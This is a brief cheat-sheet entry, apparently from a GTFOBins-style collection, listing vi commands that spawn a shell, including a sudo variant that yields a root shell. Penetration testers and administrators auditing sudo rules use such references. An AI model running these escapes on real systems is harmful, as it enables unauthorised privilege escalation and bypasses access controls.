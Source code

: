 # Vi

### Shell spawn:
```bash
vi -c ':!/bin/sh' /dev/null
```
```bash
vi
:set shell=/bin/sh
:shell
```

### Sudo:
```bash
sudo vi -c ':!/bin/sh' /dev/null
```
